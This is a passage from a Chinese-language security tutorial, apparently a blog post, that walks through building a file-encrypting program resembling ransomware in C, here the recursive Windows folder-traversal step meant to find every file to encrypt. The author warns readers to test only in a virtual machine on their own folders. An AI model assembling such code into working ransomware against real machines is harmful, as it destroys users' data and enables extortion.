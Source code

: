 运行程序后，我们打开 test.txt 查看如下，发现一个简单的加密或扰乱完成，变成了一堆乱码。当加密函数写好之后，我们接着需要编写一个遍历文件夹的函数，实现对整个目录进行加密处理。

再次强调：大家只能加密自己电脑的文件夹并且在虚拟机中进行实验，不要去恶意损坏他人的计算机设备。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMQlLzU776kOzp9E8smUqiaib24jUNjmnEfMqV3Idiaib4zTK8jcPCDnBhgL7oHgguH914cbxFwFDFX1g/640?wx_fmt=png)

第五步，编写遍历文件夹函数。  
通常遍历文件夹采用的是递归方法，依次遍历某个目录的文件夹，深度搜索文件夹中的内容，如果是文件就加密，如果是文件夹就继续深度搜索，直至找到文件依次返回，从而实现整个目录的文件遍历。

```
//遍历文件夹找到每个文件 参数-文件夹名字void findFile(char* pathName){    /* 禁止加密他人计算机,一定只能对指定目录加密,尤其不能对C盘加密 */    //设置要找的文件名 通配符实现    char findFileName[256];    memset(findFileName, 0, 256);                   //清空数组    sprintf(findFileName, "%s\\*.*", pathName);    printf("要找的文件名是：%s\n", findFileName);    return;}int main(){    //jiami("C:\\Users\\xiuzhang\\Desktop\\文件夹加密\\test.txt");    //获取当前文件夹    char buff[256] = { 0 };    GetCurrentDirectory(256, buff);    printf("当前目录是：%s\n\n", buff);    return 0;}
```

上述代码通过自定义函数遍历文件夹，同时调用 API 函数获取当前目录，核心函数为：

*   GetCurrentDirectory：Windows API 获取当前目录
    
*   findFile：自定义函数调用通配符 * 获取指定目录所有文件
    

输出结果如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMQlLzU776kOzp9E8smUqiaibOPfZuR8xUWpxgca3qLWN7UH32fJcJIfAyLnFyl4pIN53OM05BMmBzQ/640?wx_fmt=png)

第六步，进一步完善遍历文件夹递归调用函数。

*   调用 FindFirstFile 函数获取目录下第一个文件
    
*   如果找到第一个文件，则循环调用 FindNextFile 函数获取下一个文件
    
*   如果找到的是文件夹，则拼接新的文件夹路径继续递归遍历文件
    

```
#include <stdio.h>#include <string.h>#include <windows.h>#include <stdlib.h>//遍历文件夹找到每个文件 参数-文件夹名字void findFile(char* pathName){    /* 禁止加密他人计算机,一定只能对指定目录加密,尤其不能对C盘加密 */    //1.设置要找的文件名 通配符实现    char findFileName[256];    memset(findFileName, 0, 256);                   //清空数组    sprintf(findFileName, "%s\\*.*", pathName);    printf("要找的文件名是：%s\n", findFileName);    //2.获取目录下第一个文件    WIN32_FIND_DATA findData;                    //定义结构体    HANDLE hFile = FindFirstFile(findFileName, &findData);    //判断返回值等于-1(INVALID_HANDLE_VALUE)    if (INVALID_HANDLE_VALUE == hFile) {	printf("查找文件失败!\n");	return;    }    //如果成功进入死循环继续查找下一个文件    else {	int ret = 1;	char temp[256];	while (ret) {	    //如果找到的是个文件夹 则需要继续查找该文件夹内容	    if (findData.dwFileAttributes == FILE_ATTRIBUTE_DIRECTORY) {		//文件夹拼接=原始路径+新文件夹路径		memset(temp, 0, 256);		sprintf(temp, "%s\\%s", pathName, findData.cFileName);		printf("找到一个文件夹：%s\n", temp);		Sleep(1000);                             //暂停1秒钟		findFile(temp);	    }	    else { //如果是文件 则加密文件		memset(temp, 0, 256);		sprintf(temp, "%s\\%s", pathName, findData.cFileName);		printf("找到一个文件：%s\n", temp);	    }	    //查找下一个文件	    ret = FindNextFile(hFile, &findData);	}    }    return;}int main(){    //获取当前文件夹    char buff[256] = { 0 };    GetCurrentDirectory(256, buff);    printf("当前目录是：%s\n\n", buff);    findFile(buff);    return 0;}
```

在写代码过程中，我们一定要学会边写边调试，或者称为打桩输出，而不是一写到底最后来慢慢修改。此时运行程序，它输出遍历当前目录的文件夹结果如下图所示，为什么会一直在递归呢？

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMQlLzU776kOzp9E8smUqiaibM2SZ2kO2FLF9yS8Ze1WSpHb2pqao0Emzj4VFlyhH629gyucgSAM1LQ/640?wx_fmt=png)
